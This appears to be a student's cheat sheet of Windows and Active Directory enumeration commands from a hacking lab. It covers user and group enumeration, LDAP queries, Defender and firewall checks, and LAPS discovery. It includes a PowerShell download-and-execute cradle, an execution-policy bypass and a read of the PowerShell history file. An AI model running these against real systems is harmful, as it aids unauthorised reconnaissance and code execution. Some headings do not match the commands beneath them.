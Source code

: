 # Basic Enumeration Commands
## hostname
```
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```
## System.Environment::OSVersion.Version

```
enumdomusers 
```
## Enumeration Commands
```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
```
ipconfig /all
```
```
set
```
```
echo %USERDOMAIN%
```
```
echo %logonserver%
```
```
Get-Module
```
```
Get-ExecutionPolicy -List
```
```
Set-ExecutionPolicy Bypass -Scope Process
```
```
Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```
```
Get-ChildItem Env: | ft Key,Value
```
```
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```
# Checking Defenses
```
PS C:\htb> netsh advfirewall show allprofiles
```
```
C:\htb> sc query windefend
```
```
PS C:\htb> Get-MpComputerStatus
```
# Am I Alone?
```
PS C:\htb> qwinsta
```
# Network Information
```
arp -a
```
```
ipconfig /all
```
```
route print
```
```
netsh advfirewall show state
```
# Windows Management Instrumentation (WMI)
```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
```
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List
```
```
wmic process list /format:list
```
```
wmic ntdomain list /format:list
```
```
wmic useraccount list /format:list
```
```
wmic group list /format:list
```
```
wmic sysaccount list /format:list
```
# Net Commands
## Listing Domain Groups
```
PS C:\htb> net group /domain
```
## Information about a Domain User
```
PS C:\htb> net user /domain wrouse
```
# Dsquery
## We need an elevated privileges on a host or the ability to run an instance of Command Prompt or PowerShell from a SYSTEM context
### User Search
```
PS C:\htb> dsquery user
```
### Computer Search
```
PS C:\htb> dsquery computer
```
### Wildcard Search
```
PS C:\htb> dsquery * "CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
```
### Users With Specific Attributes Set (PASSWD_NOTREQD)
```
PS C:\htb> dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl
```
### Searching for Domain Controllers
```
PS C:\Users\forend.INLANEFREIGHT> dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
```
## LDAP Filtering
# Enumerating Security Controls
## get the current Defender status
```
Get-MpComputerStatus
```
```
RealTimeProtectionEnabled parameter is set to True
```
```
Find-LAPSDelegatedGroups
```
```
Find-AdmPwdExtendedRights
```
```
Get-LAPSComputers
```